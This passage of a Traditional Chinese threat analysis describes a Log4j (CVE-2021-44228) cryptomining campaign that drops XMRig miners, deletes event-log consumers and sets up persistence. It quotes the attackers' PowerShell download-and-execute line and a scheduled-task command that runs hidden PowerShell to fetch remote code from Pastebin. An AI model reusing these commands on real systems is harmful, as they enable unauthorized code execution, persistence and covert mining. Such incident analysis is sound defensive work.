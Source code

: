 

<figure class="wp-block-image"><img src="https://assets-global.website-files.com/626ff4d25aca2edf4325ff97/62d2a548a73d901f998b427c_1-1.jpeg" alt="利用危險的 Log4j 漏洞 CVE-2021-44228 的加密貨幣挖掘代碼中的漏洞"/></figure>



<p><em>圖 1：對 PowerShell 腳本 xms.ps1 的更多了解</em></p>



<p>快照詳細說明了受影響服務器的事件日誌，並指示導致 mad_micky.bat 文件下載的成功 Log4j RCE：</p>



<figure class="wp-block-image"><img src="https://assets-global.website-files.com/626ff4d25aca2edf4325ff97/62d2a5485d3ddb97cd7d959a_1-2.jpeg" alt="利用危險的 Log4j 漏洞 CVE-2021-44228 的加密貨幣挖掘代碼中的漏洞"/></figure>



<p><em>圖 2：突出顯示 mad_micky.bat 文件的日誌數據</em></p>



<p>已啟動其他連接以檢索可執行文件和腳本。這些腳本包含位於韓國和烏克蘭的兩個 IP 地址。與烏克蘭 IP 建立連接以下載可執行文件 xm.exe，這會激活礦工。礦工 XMRig Miner（在本例中）是一種開源的跨平台挖礦工具，可從多個公共位置下載。觀察到的下一個 exe 下載是針對“wxm.exe”的 (f0cf1d3d9ed23166ff6c1f3deece19b4)。</p>



<figure class="wp-block-image"><img src="https://assets-global.website-files.com/626ff4d25aca2edf4325ff97/62d2a548633c395a4ad861e7_1-3.png" alt="利用危險的 Log4j 漏洞 CVE-2021-44228 的加密貨幣挖掘代碼中的漏洞"/></figure>



<p><em>圖 3：關於 XMRig 可執行文件的更多見解</em></p>



<p>與韓國 IP 的連接涉及對另一個腳本 (/2.ps1) 以及可執行文件 (LogBack.exe) 的請求。此腳本刪除與日誌記錄關聯的運行任務，包括 SCM 事件日誌過濾器或 PowerShell 事件日誌使用者。該腳本還從 Pastebin 請求一個文件，這可能是一個 Cobalt Strike 信標配置文件。日誌刪除是通過計劃任務執行的，WMI 包括：事件記錄器、SCM 事件日誌過濾器、DSM 事件日誌消費者、PowerShell 事件日誌消費者、Windows 事件消費者、BVTConsumer。</p>



<ul>
<li>配置文件（不再託管）：IEX (New-Object System.Net.Webclient) DownloadString('hxxps://pastebin.com/raw/g93wWHkR')</li>
</ul>



<p>從 Pastebin 請求的第二個文件雖然不再由 Pastebin 託管，但它是 schtasks 命令的一部分，因此可能用於建立持久性：</p>



<ul>
<li>schtasks /create /sc MINUTE /mo 5 /tn “\Microsoft\windows\.NET Framework\.NET Framework NGEN v4.0.30319 32” /tr “c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe - WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(”hxxps://pastebin.com/raw/bcFqDdXx”'))'” /F /ru System</li>
</ul>



<p>可執行文件Logback.exe是另一個XMRig挖礦工具。還從同一個韓國 IP 下載了一個 config.json 文件。之後使用 cmd.exe 和 wmic 命令配置礦機。</p>



<p>這些文件下載和礦工配置之後是與 Pastebin 的額外連接。</p>



